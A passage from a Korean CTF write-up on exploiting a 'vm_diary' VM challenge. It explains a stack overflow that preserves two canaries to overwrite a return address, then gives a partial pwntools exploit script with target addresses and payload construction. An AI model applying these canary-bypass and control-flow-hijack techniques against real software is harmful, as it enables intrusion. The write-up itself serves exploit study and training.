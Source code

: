 ### Stack Overflow
이제 `canary`를 포함해서 stack의 return address를 덮으면 `pc` 컨트롤이 가능하다.

다만 `read_0x60f`를 호출해서 입력을 받는데 이 함수에도 `canary`가 있으므로 이를 유의해서 payload를 작성해야 한다.
``` python
    payload = b"c" * (read_canary_addr - (0x3a000 + 0x4ec))
    payload += p21(canary)                  # canary of read_0x60f
    payload += b"flag\x00\x00"
    payload += p21(canary)                  # canary of write_0x1f0
```

## 0x03. Payload
``` python
from pwn import *
from pwnlib.util.packing import p32, p64, u32, u64
from gameboxlib import *
from time import sleep
import sys

BINARY = "./vm_diary.py"
key_addr = 0x1c000 + 0x4ec
data_addr = 0x59000
ret_addr = 0xf5fce
canary_addr = 0xf5fc8
read_canary_addr = 0xf5fb6

bp = {
    'list' : 0x12e,
    'end_of_list' : 0x1ee,
}
context.terminal = ['tmux', 'splitw', '-hf']

def set_bp(s, addr):
    print(s.recv())
    s.sendline(f"b {hex(addr)}".encode())
    sleep(0.1)
    s.sendline(b"c")
    return s.recv()

def list(s):
    s.sendline(b"1")
    sleep(0.1)
    return s.recv()

def write(s, title, contents, key):
    s.sendline(b"2")
    s.recvuntil(b"title>")
    s.sendline(title)
    s.recvuntil(b">")
    s.sendline(contents)
    s.sendline(key)
    return s.recv()

def main():
    if(len(sys.argv) > 1):
        s = remote("localhost", int(sys.argv[1]))
    else:
        s = process(BINARY)
    # print(set_bp(s, bp['end_of_list']))
    s.recv()

    write(s, b"AAAA", b"aaaa", b"1111")     # 0xc4000
    payload = b"b" * (data_addr - (0x1c000 + 0x4ec))
```